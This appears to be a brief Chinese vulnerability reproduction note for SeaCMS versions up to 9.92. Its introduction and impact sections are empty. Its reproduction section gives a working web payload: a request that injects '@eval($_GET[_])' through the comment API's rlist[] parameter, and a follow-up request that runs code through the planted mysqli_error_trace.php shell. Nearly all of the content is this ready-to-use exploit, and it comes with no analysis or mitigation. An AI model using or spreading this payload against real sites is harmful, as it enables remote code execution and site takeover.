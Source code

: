 ```yaml
---
title: Seacms <= 9.92 前台Getshell
id: zhfly3118
---
```


# Seacms <= 9.92 前台Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E 
```

> 然后访问：

```
http://0-sec.org/data/mysqli_error_trace.php?_=phpinfo(); 
```